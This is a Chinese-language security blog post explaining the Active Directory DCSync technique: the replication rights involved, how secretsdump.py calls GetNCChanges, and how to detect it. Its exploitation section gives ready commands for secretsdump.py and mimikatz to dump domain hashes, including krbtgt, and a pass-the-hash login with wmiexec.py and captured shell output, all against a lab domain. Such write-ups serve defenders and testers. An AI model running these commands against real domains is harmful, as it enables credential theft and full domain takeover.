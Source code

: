```yaml
---
title: DCsync原理及利用
date: 2020-12-31 23:59:50 +0800
categories: [域安全, TA0006凭据访问]
tags: [dcsync, TA0006凭据访问]     # TAG names should always be lowercase
typora-root-url: ..
---
```




# DCsync原理及利用

## 原理

域中的账户、密码信息是存储在域控机器上`C:\Windows\NTDS\NTDS.dit`文件里, 以往是需要在域控机器上执行dump hash操作的；而通过DCSync，则可以从其他机器上，远程从`C:\Windows\NTDS\NTDS.dit`中获取密码hash。相比于在域控上访问lsass.exe进程或拷贝`NTDS.dit`、`System` 文件，其噪音更小。

[Directory Replication Service (DRS) Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/f977faaa-673e-4f66-b9bf-48c640241d47) 是一个RPC协议，用于复制和管理Active Directory中的数据。如果账户具有以下[扩展权限](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc772673(v=ws.10))，即可调用DRS服务提供的接口[GetNCChanges ](https://msdn.microsoft.com/en-us/library/dd207691.aspx)，向Domain Controller请求复制NC中数据。`Replicating Directory Changes`不能复制secret domain, 必须加上`Replicating Directory Changes All`权限。

- Replicating Directory Changes (DS-Replication-Get-Changes)
  *Extended right needed to replicate only those changes from a given NC that are also replicated to the Global Catalog (which excludes secret domain data). This constraint is only meaningful for Domain NCs.*
- Replicating Directory Changes All (DS-Replication-Get-Changes-All)
  *Control access right that allows the replication of all data in a given replication NC, including secret domain data.*
- *Replicating Directory Changes In Filtered Set (rare, only required in some environments)*

默认情况下，Administrators, Domain Admins,  Enterprise Admins 及 Domain Controllers组中的账户有权限执行DCSync。



![image-20201115172519581](/assets/img/image-20201115172519581.png)

![image-20201115172857881](/assets/img/image-20201115172857881.png)

**DCSync 流程:**

1. Discovers Domain Controller in the specified domain name.
2. Requests the Domain Controller replicate the user credentials via [GetNCChanges ](https://msdn.microsoft.com/en-us/library/dd207691.aspx)



## 实现

![image-20201115182337527](/assets/img/image-20201115182337527.png)

第三个参数`DRS_MSG_GETCHGREQ* pmsgIn`里定义了需要同步的数据，其数据结构定义如下:

![image-20201115181818373](/assets/img/image-20201115181818373.png)



`secretsdump.py`中`def DRSGetNCChanges`对DCSync的实现:

![image-20201115182006964](/assets/img/image-20201115182006964.png)

可以看到secretdump.py 请求同步了这些数据:

![image-20201115182230673](/assets/img/image-20201115182230673.png)



 [dcsync.pcapng](https://github.com/RingLcy/BlogStorage/tree/main/traffic/dcsync.pcapng) 

![image-20201220155630670](/assets/img/image-20201220155630670.png)



## 利用

### 查找具有DCSync权限的账户

```
//AD自带工具
dsacls "DC=ring2,DC=com"
```

![image-20201115185039484](/assets/img/image-20201115185039484.png)

```
// powershell activedirectory module
import-module activedirectory
get-acl "AD:\DC=ring2,DC=com" |Select-Object -ExpandProperty Access
```

![image-20201115185304928](/assets/img/image-20201115185304928.png)

```
Import-Module ActiveDirectory

cd 'AD:DC=ring2,DC=com'

$AllReplACLs = (Get-AcL).Access | Where-Object {$_.ObjectType -eq '1131f6ad-9c07-11d1-f79f-00c04fc2dcd2' -or $_.ObjectType -eq '1131f6aa-9c07-11d1-f79f-00c04fc2dcd2'}

#Filter this list to RIDs above 1000 which will exclude well-known Administrator groups

foreach ($ACL in $AllReplACLs){

    $user = New-Object System.Security.Principal.NTAccount($ACL.IdentityReference)

    $SID = $user.Translate([System.Security.Principal.SecurityIdentifier])

    $RID = $SID.ToString().Split("-")[7]

    if([int]$RID -gt 1000)

    {

        Write-Host "Permission to Sync AD granted to:" $ACL.IdentityReference

    }

}
```



### impacket-secretsdump.py

```
python secretsdump.py -just-dc-user [ACCOUNT] [DOMAIN]/[USERNAME]:[PASSWORD]@[TARGET]
python secretsdump.py -just-dc [DOMAIN]/[USERNAME]:[PASSWORD]@[TARGET]
python secretsdump.py ring2.com/win10:Test1234@ringdc-pc.ring2.com
```



获取域控机器密码Hash后，可使用Pass-the-hash登录域控机器

```
C:\Users\win10\AppData\Local\Programs\Python\Python37\Scripts>python wmiexec.py ring2.com/administrator@ringdc-pc.ring2.com -hashes "aad3b435b51404eeaad3b435b51404ee:b9e0cfceaf6d077970306a2fd88a7c0a"
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
ring2\administrator
```



### mimikatz

```
mimikatz "lsadump::dcsync /domain:ring2.com /user:Administrator"
mimikatz "lsadump::dcsync /domain:rd.adsecurity.org /user:krbtgt"
mimikatz "lsadump::dcsync /domain:[FQDN_DOMAIN] /all /csv"
```



## 检测

通过检测发出DsGetNCChange请求的不是已知域控IP来检测。

*获取域控IP：*

PowerShell Active Directory module cmdlet:

> Get-ADDomainController -filter * | select IPv4Address


PowerShell:

> [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().DomainControllers | select IPAddress



![Mimikatz-DCSync-KRBTGT-PacketCapture-DSGetNCChanges](/assets/img/Mimikatz-DCSync-KRBTGT-PacketCapture-DSGetNCChanges.jpg)







## 参考

[Mimikatz DCSync Usage, Exploitation, and Detection](https://adsecurity.org/?p=1729)

[DC Sync Attacks With Secretsdump.py](https://www.youtube.com/watch?v=QfyZQDyeXjQ&t=697s)



